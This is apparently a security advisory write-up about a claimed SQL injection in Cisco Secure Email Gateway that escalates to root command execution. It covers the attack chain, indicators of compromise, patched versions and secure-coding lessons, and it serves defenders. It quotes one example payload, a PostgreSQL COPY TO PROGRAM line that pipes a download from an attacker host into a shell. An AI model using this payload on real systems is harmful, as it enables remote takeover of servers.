

# CVE-2026-76461: Cisco Secure Email Gateway SQLi to Root RCE

- **Advisory ID:** `cisco-sa-esa-inj-2bLVGmhX` (Cisco Bug ID: `CSCwu56234`)
- **CVE:** CVE-2026-76461
- **Severity:** CVSS 9.8 Critical (`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`)
- **CWE:** CWE-89 (SQL Injection) leading to Command Execution
- **Affected Products:** Cisco Secure Email Gateway (formerly IronPort / ESA) running AsyncOS (physical and virtual)
- **Patched In:** AsyncOS 15.5.5-014, 16.0.4-302, 16.5.0-780
- **Source Advisory:** [Cisco Security Advisory (Sept 2026)](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-esa-inj-2bLVGmhX)
- **Exploitation Status:** Active zero-day exploitation confirmed in the wild

---

## What Happened (Executive Summary)

A critical vulnerability in the email parsing engine of Cisco AsyncOS allows an unauthenticated, remote attacker to execute arbitrary OS commands with **root privileges** simply by sending a crafted email through an affected Cisco Secure Email Gateway.

No credentials, user interaction, or administrator access is required. The gateway inspects the incoming email, improperly validates an email header or metadata field, and passes it into an internal SQL query. Threat actors then escape the SQL query and leverage PostgreSQL's `COPY ... TO PROGRAM` directive to execute shell commands directly on the underlying operating system.

---

## The Attack Chain



### 1. Ingestion & Unsanitized Parsing
When Cisco Secure Email Gateway processes an incoming email (SMTP transaction), the parsing component extracts metadata (such as sender, recipient, message ID, subject, or quarantine tracking headers) and writes tracking information to the internal database.

Due to missing input sanitization or parameterized queries in the parsing logic, SQL control characters inside a crafted email header break out of the intended query structure.

### 2. Escalating SQL Injection to Root Command Execution
The underlying database runs with elevated system privileges. Attackers weaponized the SQL injection by injecting PostgreSQL's `COPY ... TO PROGRAM` statement:

```sql
COPY (SELECT '') TO PROGRAM 'curl -s http://attacker.com/payload | sh';
```

In PostgreSQL, `COPY ... TO PROGRAM` instructs the database server to fork an OS shell process and execute the provided command string. Because AsyncOS runs core services with root or high-privilege access, this grants the attacker immediate root-level code execution on the appliance.

---

## Indicators of Compromise (IoC) & Forensic Analysis

Cisco explicitly pointed to the presence of `COPY.*TO PROGRAM` in the appliance mail logs as a primary indicator:

```bash
# Cisco ESA CLI log inspection command:
cisco-esa> grep -i "COPY.*TO PROGRAM" mail_logs
```

### Critical Forensic Gotchas:
1. **Log Tampering:** Because successful exploitation yields `root` privileges, sophisticated threat actors can alter or clear `mail_logs` locally. Cisco strongly advises cross-checking firewall and network boundary logs for unexpected outbound traffic (reverse shells, external connections).
2. **Cluster Compromise:** Cisco ESA appliances frequently operate in clusters. Cluster nodes trust each other using pre-shared SSH key pairs. Once one node is compromised, attackers can extract private SSH keys from the appliance and move laterally to all other nodes in the cluster.

---

## Mitigation & Remediation

There are **no workarounds** for this vulnerability. Devices must be upgraded to a patched release:

| AsyncOS Branch | First Fixed Release |
|---|---|
| **15.5 and earlier** | `15.5.5-014` |
| **16.0** | `16.0.4-302` |
| **16.5** | `16.5.0-780` (Recommended migration target) |

### Recovery Steps for Compromised Nodes:
- If a virtual appliance was compromised, deploy a clean VM instance rather than attempting in-place remediation.
- Rotate all credentials, certificates, and SSH key pairs across all cluster members.
- Restrict management interfaces to isolated administrative VLANs.

---

## Engineering Takeaways

1. **Email Gateways Are Public-Facing Boundaries:** Every string in an email header (Message-ID, Subject, Received, From) is untrusted user input. Never interpolate email headers directly into database queries; always use parameterized queries / prepared statements.
2. **Database Permissions Matter:** Allowing database users to invoke OS-level execution (`COPY TO PROGRAM`, `xp_cmdshell`) turns a data-plane SQL injection into a full operating system takeover. Core engines should run with strictly bounded database privileges.

---

## References
- [Cisco Security Advisory cisco-sa-esa-inj-2bLVGmhX](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-esa-inj-2bLVGmhX)
- [Cisco Bug Search ID CSCwu56234](https://bst.cloudapps.cisco.com/bugsearch/bug/CSCwu56234)
- [NVD NIST Entry for CVE-2026-76461](https://nvd.nist.gov/)
